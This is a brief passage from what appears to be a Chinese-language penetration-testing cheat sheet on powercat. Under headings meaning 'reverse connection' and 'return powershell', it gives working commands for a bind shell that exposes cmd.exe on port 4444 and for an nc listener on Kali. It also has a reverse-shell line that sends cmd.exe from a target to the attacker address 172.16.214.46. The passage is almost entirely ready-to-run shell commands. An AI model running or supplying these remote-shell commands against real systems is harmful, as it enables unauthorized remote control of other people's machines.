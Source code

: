 ```none
powercat -l -v -p lport -e cmd.exe
```







```none
powercat -l -v -p 4444 -e cmd.exe
```

### 反向连接

Kali 上开启监听







```none
nc -lvp 4444
```

靶机向 kali 发起连接







```none
powercat -c rhost -p rport -e cmd.exe
```







```none
powercat -c 172.16.214.46 -p 4444 -e cmd.exe
```

### 返回 powershell

攻击机上运行







```none
powercat -l -v -p lport
```







```none
powercat -l -v -p 4444
```
